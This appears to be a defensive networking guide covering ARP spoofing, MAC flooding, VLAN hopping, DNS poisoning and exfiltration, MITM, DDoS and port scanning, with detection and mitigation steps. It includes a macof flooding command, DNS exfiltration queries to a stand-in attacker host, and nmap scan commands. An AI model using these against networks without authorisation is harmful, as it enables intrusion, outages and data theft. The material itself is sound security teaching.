



import \{ Tabs, TabItem \} from '@astrojs/starlight/components';
import \{ Aside, Card, CardGrid, Steps, Badge \} from '@astrojs/starlight/components';


Network attacks exploit weaknesses in protocols that were designed for trusted environments. Most Layer 2 and 3 protocols have no built-in authentication — understanding the attacks is the first step to defending against them.

## Layer 2 Attacks

### ARP Spoofing / ARP Poisoning

ARP has no authentication — any host can send an ARP reply claiming any IP. An attacker poisons the ARP cache of victims, redirecting traffic through the attacker's machine.



**Attack tools:** `arpspoof`, `ettercap`, `bettercap`

**Detection:**
```bash
# Watch for duplicate MAC announcements
arp -a | sort | uniq -d -f 1

# Wireshark filter for suspicious ARP activity
arp.duplicate-address-detected
arp.opcode == 2 && arp.src.proto_ipv4 == <gateway-ip>  # unsolicited replies

# arptwatch — Linux daemon that monitors ARP changes
arptwatch -i eth0 -n -e admin@example.com
```

**Mitigations:**
- **Dynamic ARP Inspection (DAI)** on managed switches (see [VLANs & Switching](/network/traffic/switching))
- **Static ARP entries** for critical hosts (gateways)
- **XArp** — real-time ARP monitoring
- **Private VLANs** — prevent host-to-host communication within a VLAN

### MAC Flooding

An attacker floods a switch with frames containing thousands of fake source MAC addresses, filling the CAM table. When the table is full, the switch enters **fail-open mode** — flooding unknown frames out all ports, effectively acting like a hub.

```bash
# Attack tool — macof (part of dsniff)
macof -i eth0 -n 100000
```

**Detection:** CAM table utilisation alarm, sudden drop in network performance.

**Mitigation:**
- **Port security** — limit the number of MACs learned per port (`switchport port-security maximum 2`)
- **802.1X** — only authenticated clients can send frames

### VLAN Hopping

Two methods to send traffic to a VLAN the attacker is not assigned to:

**Double Tagging:** Attacker in native VLAN 1 sends a double-tagged frame (VLAN 1 outer, VLAN 20 inner). The switch strips the outer tag (native) and forwards the inner-tagged frame into VLAN 20.

```
Attacker frame: [802.1Q VLAN 1][802.1Q VLAN 20][Payload]
Switch 1: Strips outer VLAN 1 tag (native VLAN) → forwards to trunk
Switch 2: Reads inner VLAN 20 tag → delivers to VLAN 20
```

**Switch Spoofing:** Attacker's NIC sends DTP (Dynamic Trunking Protocol) frames, negotiating a trunk link with the switch → gets access to all VLANs.

**Mitigations:**
- Change native VLAN from 1 to an unused VLAN on all trunks
- Explicitly configure all ports as access or trunk — disable DTP: `switchport nonegotiate`
- Disable unused ports and assign them to a quarantine VLAN

---

## DNS Attacks

### DNS Cache Poisoning

An attacker injects a forged DNS response into a resolver's cache before the legitimate response arrives. All clients using that resolver receive the forged IP.

**Kaminsky Attack (2008):** Exploited the fact that DNS uses predictable transaction IDs and source ports. Fixed by: source port randomisation + 0x20 encoding.

**Modern prevention:** DNSSEC (cryptographic signatures on records), DNS over TLS/HTTPS.

### DNS Hijacking

- **Router hijacking:** Malware changes the router's DNS settings
- **ISP hijacking:** Some ISPs redirect NXDOMAIN to ad pages
- **Rogue DNS:** Malware changes the host's `resolv.conf` or DNS settings

**Detection:**
```bash
# Check current DNS resolver
cat /etc/resolv.conf
nmcli dev show | grep DNS

# Query multiple resolvers and compare
dig google.com @8.8.8.8
dig google.com @1.1.1.1
dig google.com @$(cat /etc/resolv.conf | grep nameserver | awk '{print $2}')
```

### DNS Exfiltration

Data is encoded in DNS query hostnames and sent to an attacker-controlled DNS server. The server logs the subdomains, reconstructing the data.

```
# Exfiltrating "secret" via DNS queries
data.base64encoded.evil.example.com A ?
more.data.base64encoded.evil.example.com A ?
```

**Detection:** Monitor for:
- DNS queries with unusually long or random subdomains
- High volume of DNS queries to a single external domain
- DNS queries to domains with no web presence (sinkhole)

**Mitigation:** Restrict DNS to authorised resolvers via firewall; monitor DNS traffic with tools like Zeek or Pi-hole.

---

## Man-in-the-Middle (MITM) Attacks

An attacker positions themselves between two communicating parties, intercepting and potentially modifying traffic.



**MITM vectors:**
- ARP spoofing on LAN
- Rogue Wi-Fi AP (evil twin)
- DNS poisoning
- BGP hijacking (internet-scale)
- Malicious proxy / transparent proxy

**HTTPS MITM:** Requires presenting a fake certificate. Prevented by certificate pinning and HSTS preloading.

**Detection:**
- Certificate transparency log monitoring (crt.sh)
- Unexpected certificate issuer in browser
- SSL pinning alerts in mobile apps

---

## DDoS — Distributed Denial of Service

DDoS attacks overwhelm a target's resources (bandwidth, CPU, connections) to make it unavailable to legitimate users.

### Attack Types

| Category | Examples | Target |
|---|---|---|
| **Volumetric** | UDP flood, ICMP flood, DNS/NTP amplification | Bandwidth |
| **Protocol** | SYN flood, Ping of Death, SMURF | Network/transport layer state |
| **Application** | HTTP flood, Slowloris, ReDOS | Application CPU/memory |

### SYN Flood

Attacker sends thousands of SYN packets with spoofed source IPs. Server allocates half-open connection state for each but never receives the final ACK. Connection table exhausted → legitimate connections refused.



**Mitigation:** SYN cookies — server doesn't allocate state until the ACK arrives; SYN proxy on firewall; rate limiting SYN packets.

### Amplification Attacks

Attacker sends small requests with a spoofed source IP (victim's IP) to open servers. The server sends a large response to the victim — multiplication of traffic.

| Protocol | Amplification Factor |
|---|---|
| DNS (ANY query) | 28–54× |
| NTP (monlist) | up to 556× |
| Memcached UDP | up to 51,000× |
| SSDP | 30× |

**Mitigation:** BCP38 egress filtering (ISPs block spoofed packets leaving their network); disable open resolvers; disable Memcached UDP.

### DDoS Mitigation Strategies

| Method | How |
|---|---|
| **Cloud scrubbing** | Route traffic through Cloudflare, Akamai, AWS Shield — scrub before delivery |
| **Anycast** | Distribute attack traffic across many PoPs globally |
| **Rate limiting** | Limit requests per IP at edge/load balancer |
| **SYN cookies** | Server-side — avoid per-connection state until handshake complete |
| **RTBH** (black hole routing) | Drop all traffic to attacked IP at upstream router — kills the service but protects infrastructure |
| **BGP FlowSpec** | Distribute drop rules to upstream routers programmatically |

---

## Port Scanning

Port scanning discovers open services on a target host. Nmap is the standard tool.

```bash
# Basic TCP SYN scan (stealthy — doesn't complete handshake)
nmap -sS 192.168.1.0/24

# Full TCP connect scan (completes handshake — shows in logs)
nmap -sT 192.168.1.100

# UDP scan (slow but necessary for DNS, SNMP, DHCP)
nmap -sU 192.168.1.100

# Service/version detection
nmap -sV 192.168.1.100

# OS detection
nmap -O 192.168.1.100

# Aggressive (OS + version + scripts + traceroute)
nmap -A 192.168.1.100

# Specific ports
nmap -p 22,80,443,3389 192.168.1.100
nmap -p 1-1024 192.168.1.100

# Scan from a list of hosts
nmap -iL targets.txt

# Output to file
nmap -oN scan.txt 192.168.1.0/24
nmap -oX scan.xml 192.168.1.0/24
```

**Detection:** Network IDS signatures for Nmap patterns, firewall logging.

**Legitimate uses:** Network inventory, security audits, pen testing. Scanning networks you don't own or don't have permission to scan is illegal in most jurisdictions.

---

## Network Attack Mitigation Checklist

| Attack | Primary Mitigation |
|---|---|
| ARP spoofing | Dynamic ARP Inspection (DAI) |
| MAC flooding | Port security (`maximum 2`) |
| VLAN hopping | Change native VLAN, disable DTP, explicit port modes |
| DNS poisoning | DNSSEC; encrypted DNS (DoT/DoH) |
| DNS hijacking | Restrict DNS to known resolvers; monitor resolver settings |
| SYN flood | SYN cookies; rate limiting |
| Amplification DDoS | BCP38 filtering; cloud scrubbing |
| MITM | TLS everywhere; certificate pinning; HSTS |
| Rogue DHCP | DHCP snooping |
| Port scanning | IDS rules; firewall egress filtering; low-interaction honeypots |
| OSPF spoofing | OSPF MD5/SHA authentication |
| BGP hijacking | RPKI ROA validation; peer prefix filtering |
